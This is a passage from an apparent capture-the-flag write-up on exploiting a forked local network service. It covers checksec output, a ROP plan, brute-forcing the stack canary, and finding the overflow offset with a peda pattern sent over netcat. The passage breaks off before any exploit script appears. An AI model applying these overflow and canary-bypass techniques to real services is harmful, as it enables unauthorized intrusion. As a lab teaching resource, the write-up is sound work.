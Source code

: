    
    
    gdb-peda$ checksec
    CANARY    : ENABLED
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : ENABLED
    RELRO     : Partial
    

### Strategy

This will be a simple ROP exploit, where I chain together gadgets, or small
snippets of code that each move one or two pieces into place and return to the
next one. To do this I’ll need some gadgets. I’ll also need a way to leak the
canary, as well as the address space for the program, since PIE is enabled.

Much like the `httpserver` exploit, this took a long time of playing around,
debugging, setting break points, examining memory, etc to get working. It’s
hard to show all that, but doing it is how you get better at it.

### Stage 0: Brute force Canary (and RBP and return address)

In order to overflow the buffer and write a new return address, I’ll need to
know the canary value, which is randomly selected each time the server starts.
Luckily for me, this doesn’t change when a new process is forked to handle my
request. Also, when I send a bad canary value, I know the program just shuts
down on me, as opposed to sending “Done.” when the canary is intact.

#### Find Offset

Before reading my input, the end of the stack looks like:

    
    
    gdb-peda$ x/3xg $rbp-8
    0x7ffccfb6cbe8: 0x18bb289986192300      0x00007ffccfb6cc20
    0x7ffccfb6cbf8: 0x000055d9d3d0d562
    

That’s the canary, then the `rbp` value from the previous frame, and the
return address.

I’ll use `pattern_create` from peda to get 100 characters, and submit it to
the program:

    
    
    root@kali# echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL' | nc 127.0.0.1 1337                                                  
    Please enter the message you want to send to admin:
    

Now I’ll run until just after the `recv`, and check out the same three
locations:

    
    
    gdb-peda$ x/3xg $rbp-8
    0x7ffccfb6cbe8: 0x4841413241416341      0x4141334141644141
    0x7ffccfb6cbf8: 0x4134414165414149
    